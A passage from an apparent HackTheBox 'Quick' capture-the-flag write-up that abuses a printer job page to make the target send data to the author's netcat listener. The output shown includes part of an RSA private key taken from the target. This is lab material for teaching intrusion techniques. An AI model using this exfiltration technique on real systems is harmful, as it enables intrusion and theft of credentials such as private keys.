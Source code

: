 Run the script and let's create a printer

![Quick](/assets/img/post/hackthebox/quick/16.png)

No go to http://printerv2.quick.htb/job.php and print 

![Quick](/assets/img/post/hackthebox/quick/17.png)

and we are done

```bash
[vibhu@parrot]─[~/HTB/boxes/ROOTED/Quick]$ nc -nvlp 9100
listening on [any] 9100 ...
connect to [10.10.14.166] from (UNKNOWN) [10.10.10.186] 50790
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAutSlpZLFoQfbaRT7O8rP8LsjE84QJPeWQJji6MF0S/RGCd4P
AP1UWD26CAaDy4J7B2f5M/o5XEYIZeR+KKSh+mD//FOy+O3sqIX37anFqqvhJQ6D
1L2WOskWoyZzGqb8r94gN9TXW8TRlz7hMqq2jfWBgGm3YVzMKYSYsWi6dVYTlVGY
DLNb/88agUQGR8cANRis/2ckWK+GiyTo5pgZacnSN/61p1Ctv0IC/zCOI5p9CKnd
whOvbmjzNvh/b0eXbYQ/Rp5ryLuSJLZ1aPrtK+LCnqjKK0hwH8gKkdZk/d3Ofq4i
hRiQlakwPlsHy2am1O+smg0214HMyQQdn7lE9QIDAQABAoIBAG2zSKQkvxgjdeiI
ok/kcR5ns1wApagfHEFHxAxo8vFaN/m5QlQRa4H4lI/7y00mizi5CzFC3oVYtbum
Y5FXwagzZntxZegWQ9xb9Uy+X8sr6yIIGM5El75iroETpYhjvoFBSuedeOpwcaR+
DlritBg8rFKLQFrR0ysZqVKaLMmRxPutqvhd1vOZDO4R/8ZMKggFnPC03AkgXkp3
j8+ktSPW6THykwGnHXY/vkMAS2H3dBhmecA/Ks6V8h5htvybhDLuUMd++K6Fqo/B
H14kq+y0Vfjs37vcNR5G7E+7hNw3zv5N8uchP23TZn2MynsujZ3TwbwOV5pw/CxO
9nb7BSECgYEA5hMD4QRo35OwM/LCu5XCJjGardhHn83OIPUEmVePJ1SGCam6oxvc
bAA5n83ERMXpDmE4I7y3CNrd9DS/uUae9q4CN/5gjEcc9Z1E81U64v7+H8VK3rue
F6PinFsdov50tWJbxSYr0dIktSuUUPZrR+in5SOzP77kxZL4QtRE710CgYEAz+It
T/TMzWbl+9uLAyanQObr5gD1UmG5fdYcutTB+8JOXGKFDIyY+oVMwoU1jzk7KUtw
```